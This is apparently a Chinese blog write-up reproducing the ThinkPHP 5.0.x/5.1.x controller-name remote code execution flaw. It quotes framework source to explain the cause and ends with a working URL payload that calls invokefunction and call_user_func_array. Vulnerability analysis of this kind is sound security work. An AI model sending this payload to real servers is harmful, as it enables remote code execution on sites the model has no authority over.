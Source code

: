 date: 2020-01-30
categories:
- cve复现
tags:
- cve复现
title: tp5rce复现
---
# tp5rce复现

## 影响范围

>### 本次版本更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0.23和5.1.31之前的所有版本，推荐尽快更新到最新版本。
>
>**如果暂时无法更新到最新版本，请开启强制路由并添加相应未定义路由，或者参考commit的修改 增加相关代码。**
>
>--来自thinkphp官网



## 漏洞原理

根据官方的公告去寻找相关commit发现漏洞位置

![image302](https://i.loli.net/2020/01/28/5EDWfFXvmqSuJk3.png)



查看所有调用controller的函数发现有个敏感的函数名exec,不过这个是tp自己实现的

```php
	public function exec()
    {
        // 监听module_init
        $this->app['hook']->listen('module_init');

        try {
            // 实例化控制器
            $instance = $this->app->controller($this->controller,
                $this->rule->getConfig('url_controller_layer'),
                $this->rule->getConfig('controller_suffix'),
                $this->rule->getConfig('empty_controller'));

            if ($instance instanceof Controller) {
                $instance->registerMiddleware();
            }
        } catch (ClassNotFoundException $e) {
            throw new HttpException(404, 'controller not exists:' . $e->getClass());
        }
    ...
    }
```

跟进controller

```php
    public function controller($name, $layer = 'controller', $appendSuffix = false, $empty = '')
    {
        list($module, $class) = $this->parseModuleAndClass($name, $layer, $appendSuffix);

        if (class_exists($class)) {
            return $this->__get($class);
        } elseif ($empty && class_exists($emptyClass = $this->parseClass($module, $layer, $empty, $appendSuffix))) {
            return $this->__get($emptyClass);
        }

        throw new ClassNotFoundException('class not exists:' . $class, $class);
    }
```

再跟进parseModuleAndClass

```php
protected function parseModuleAndClass($name, $layer, $appendSuffix)
    {
        if (false !== strpos($name, '\\')) {
            $class  = $name;//存在\
            $module = $this->request->module();
        } else {
            if (strpos($name, '/')) {
                list($module, $name) = explode('/', $name, 2);
            } else {
                $module = $this->request->module();
            }

            $class = $this->parseClass($module, $layer, $name, $appendSuffix);
        }

        return [$module, $class];
    }
```

如果存在\则直接返回数据,其中`$name`是我们可控内容,而`$name`也恰好是类名,于是我们可以通过调用命名空间\类来进行敏感操作

## 漏洞利用

查找手册,找到url访问的具体细节

`http://serverName/index.php（或者其它应用入口文件）?s=/模块/控制器/操作/[参数名/参数值...]`

于是有通杀tp5.0.x和tp5.1.x的检测payload

` http://127.0.0.1/public/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=var_dump&vars[1][]=checktp5rce `


